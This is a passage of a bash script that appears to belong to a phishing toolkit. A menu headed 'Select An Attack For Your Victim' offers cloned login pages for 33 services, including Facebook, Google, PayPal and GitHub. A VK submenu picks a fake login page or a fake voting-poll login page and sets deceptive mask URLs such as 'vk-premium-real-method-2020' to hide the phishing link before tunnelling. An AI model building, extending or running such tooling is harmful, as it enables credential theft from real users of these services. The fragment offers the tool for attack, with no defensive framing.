 }

## Vk
site_vk() {
	cat <<- EOF

		${RED}[${WHITE}01${RED}]${ORANGE} Traditional Login Page
		${RED}[${WHITE}02${RED}]${ORANGE} Advanced Voting Poll Login Page

	EOF

	read -p "${RED}[${WHITE}-${RED}]${GREEN} Select an option : ${BLUE}"

	case $REPLY in 
		1 | 01)
			website="vk"
			mask='http://vk-premium-real-method-2020'
			tunnel_menu;;
		2 | 02)
			website="vk_poll"
			mask='http://vote-for-the-best-social-media'
			tunnel_menu;;
		*)
			echo -ne "\n${RED}[${WHITE}!${RED}]${RED} Invalid Option, Try Again..."
			{ sleep 1; clear; banner_small; site_vk; };;
	esac
}

## Menu
main_menu() {
	{ clear; banner; echo; }
	cat <<- EOF
		${RED}[${WHITE}::${RED}]${ORANGE} Select An Attack For Your Victim ${RED}[${WHITE}::${RED}]${ORANGE}

		${RED}[${WHITE}01${RED}]${ORANGE} Facebook      ${RED}[${WHITE}11${RED}]${ORANGE} Twitch       ${RED}[${WHITE}21${RED}]${ORANGE} DeviantArt
		${RED}[${WHITE}02${RED}]${ORANGE} Instagram     ${RED}[${WHITE}12${RED}]${ORANGE} Pinterest    ${RED}[${WHITE}22${RED}]${ORANGE} Badoo
		${RED}[${WHITE}03${RED}]${ORANGE} Google        ${RED}[${WHITE}13${RED}]${ORANGE} Snapchat     ${RED}[${WHITE}23${RED}]${ORANGE} Origin
		${RED}[${WHITE}04${RED}]${ORANGE} Microsoft     ${RED}[${WHITE}14${RED}]${ORANGE} Linkedin     ${RED}[${WHITE}24${RED}]${ORANGE} DropBox	
		${RED}[${WHITE}05${RED}]${ORANGE} Netflix       ${RED}[${WHITE}15${RED}]${ORANGE} Ebay         ${RED}[${WHITE}25${RED}]${ORANGE} Yahoo		
		${RED}[${WHITE}06${RED}]${ORANGE} Paypal        ${RED}[${WHITE}16${RED}]${ORANGE} Quora        ${RED}[${WHITE}26${RED}]${ORANGE} Wordpress
		${RED}[${WHITE}07${RED}]${ORANGE} Steam         ${RED}[${WHITE}17${RED}]${ORANGE} Protonmail   ${RED}[${WHITE}27${RED}]${ORANGE} Yandex			
		${RED}[${WHITE}08${RED}]${ORANGE} Twitter       ${RED}[${WHITE}18${RED}]${ORANGE} Spotify      ${RED}[${WHITE}28${RED}]${ORANGE} StackoverFlow
		${RED}[${WHITE}09${RED}]${ORANGE} Playstation   ${RED}[${WHITE}19${RED}]${ORANGE} Reddit       ${RED}[${WHITE}29${RED}]${ORANGE} Vk
		${RED}[${WHITE}10${RED}]${ORANGE} Tiktok        ${RED}[${WHITE}20${RED}]${ORANGE} Adobe        ${RED}[${WHITE}30${RED}]${ORANGE} XBOX
		${RED}[${WHITE}31${RED}]${ORANGE} Mediafire     ${RED}[${WHITE}32${RED}]${ORANGE} Gitlab       ${RED}[${WHITE}33${RED}]${ORANGE} Github
